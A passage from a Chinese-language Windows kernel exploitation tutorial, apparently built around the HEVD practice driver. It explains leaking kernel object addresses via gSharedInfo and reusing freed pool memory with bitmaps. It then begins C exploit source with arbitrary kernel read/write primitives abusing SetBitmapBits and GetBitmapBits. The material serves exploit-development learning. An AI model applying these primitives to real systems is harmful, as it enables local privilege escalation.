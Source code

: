 其中第一个参数 pKernel 就像 GdiSharedHandleTable 中的 pKernel 一样，指向该 user object 在内核空间中的位置，我们可以通过 user object 的 handle 值来索引其在 aheList 中的位置。

因此，我们可以通过 gSharedInfo -> aheList -> pKernel 来获取 user object 在内核空间中的地址

因为 Accelerator table 属于 user object，因此我们可以通过这种方法来获得 Accelerator table 对象的地址

### 让 bitmap 对象重用释放掉的空间

我们知道，如果我们在池中释放掉一块空间，并且之后分配同等大小的空间时，内存管理器是倾向于分配同一块空间给它的。

我们还可以通过类似于 HEVD 非换页池溢出中 pool fengshui 的方法来提高稳定性。（经测试直接分配释放分配就可以了，但是感觉这样做要稳定一些）

## 0x03 RS1 下的替代方法利用

首先直接贴出源码，然后解释一些细节

```c
// bitmapReplace.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"
#include <windows.h>
#include <Psapi.h>

TCHAR driverName[1024];

typedef struct _payload {
	PULONG_PTR what;
	PULONG_PTR where;
} Payload, *PPayload;

VOID readOOB(HBITMAP hManager, HBITMAP hWorker, DWORD64 whereWrite, LPVOID whatWrite, int len)
{
	SetBitmapBits(hManager, len, &whereWrite); // set 写的是 hWorker 的 pvScan0 的值
											   // 通过控制 hWorker 的 pvScan0 的值来决定对哪块地址进行读写
	GetBitmapBits(hWorker, len, whatWrite);
}

VOID writeOOB(HBITMAP hManager, HBITMAP hWorker, DWORD64 whereWrite, LPVOID whatWrite, int len)
{
	SetBitmapBits(hManager, len, &whereWrite);
	SetBitmapBits(hWorker, len, &whatWrite);
}

typedef struct _SERVERINFO {
	DWORD dwSRVIFlags;
	DWORD cHandleEntries;
	WORD wSRVIFlags;
	WORD wRIPPID;
	WORD wRIPError;
} SERVERINFO, *PSERVERINFO;

typedef struct _USER_HANDLE_ENTRY {
	void    *pKernel;
	union
	{
		PVOID pi;
		PVOID pti;
		PVOID ppi;
	};
	BYTE type;
	BYTE flags;
	WORD generation;
} USER_HANDLE_ENTRY, *PUSER_HANDLE_ENTRY;

```